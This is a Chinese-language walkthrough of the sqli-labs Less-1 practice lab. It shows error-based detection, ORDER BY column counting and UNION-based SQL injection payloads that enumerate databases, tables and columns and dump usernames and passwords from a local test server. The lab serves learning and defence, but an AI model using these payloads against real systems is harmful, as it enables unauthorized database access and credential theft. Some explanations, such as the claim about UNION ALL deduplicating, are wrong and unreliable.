

SQL-Lib_Less1
本地环境试验访问地址：http://192.168.72.179/sqli-labs/Less-1/?id=1
- 查询语句
- 从上述错误当中，我们可以看到提交到sql 中的1’在经过sql 语句构造后形成’1’’ LIMIT 0,1，
- 多加了一个’ 。这种方式就是从错误信息中得到我们所需要的信息，那我们接下来想如何
- 将多余的‘ 去掉呢？
- 尝试‘or 1=1–+
- 此时构造的sql 语句就成了
- Select ** where id=’1’or 1=1–+’ LIMIT 0,1
http://192.168.72.179/sqli-labs/Less-1/?id=1' or 1=1 –+
- 可以看到正常返回数据。
- 此处可以利用order by。Order by 对前面的数据进行排序，这里有三列数据，我们就只能用
- order by 3,超过3 就会报错。
- ‘order by 4–+的结果显示结果超出。
Order by 作用
- ORDER BY 语句
- ORDER BY 语句用于根据指定的列对结果集进行排序。
- ORDER BY 语句默认按照升序对记录进行排序。
- 如果您希望按照降序对记录进行排序，可以使用 DESC 关键字。
实例
- 三个查询分别以id,username,password三个字段正序排列，当查到4的时候发现没有第四个字段
最后从源代码中分析下为什么会造成注入？
- Sql 语句为$sql=”SELECT * FROM users WHERE id=’$id’ LIMIT 0,1”;
- Id 参数在拼接sql 语句时，未对id 进行任何的过滤等操作，所以当提交‘or 1=1–+，直接构
- 造的sql 语句就是
- SELECT * FROM users WHERE id=’1’or 1=1–+ LIMIT 0,1
- 这条语句因or 1=1 所以为永恒真。
- 此处介绍union 联合注入，union 的作用是将两个sql 语句进行联合。Union 可以从
- 下面的例子中可以看出，强调一点：union 前后的两个sql 语句的选择列数要相同才可以。
- nion all 与union 的区别是增加了去重的功能。我们这里根据上述background 的知识，进行
- information_schema 知识的应用。
- 当id 的数据在数据库中不存在时，（此时我们可以id=-1，两个sql 语句进行联合操作时，
- 当前一个语句选择的内容为空，我们这里就将后面的语句的内容显示出来）此处前台页面返
- 回了我们构造的union 的数据。
爆数据库
- http://192.168.72.179/sqli-labs/Less-1/?id=-1' union select 1,2,group_concat(schema_name) from information_schema.schemata –+
- 此时的sql 语句为SELECT * FROM users WHERE id=’-1’union select 1,group_concat(schema
- _name),3 from information_schema.schemata–+ LIMIT 0,1
- 可以看到id,username 分别被1,2站位站掉了，而password读取的内容则为information_schema这个数据库下面的schemata这张表里面的schema_name 这个字段，schema_name这个字段里面存储着mysql中所有的数据库。
爆security数据库的数据表
- http://192.168.72.179/sqli-labs/Less-1/?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=”security”–+
- 此时的sql 语句为SELECT * FROM users WHERE id=’-1’union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=’security’–+ LIMIT 0,1

爆users表的列(字段名)
http://192.168.72.179/sqli-labs/Less-1/?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema = ‘security’ and table_name =’users’ –+
- 此时的sql 语句为
- SELECT * FROM users WHERE id=’-1’union select 1,2,group_concat(column_name) from information_schema.columns where table_schema = ‘security’ and table_name =’users’ –+ LIMIT 0,1
爆数据
- http://192.168.72.179/sqli-labs/Less-1/?id=-1' union select 1,username,password from users where id=2–+
- 此时的sql 语句为SELECT * FROM users WHERE id=’-1’union select 1,username,password from users where id=2–+ LIMIT 0,1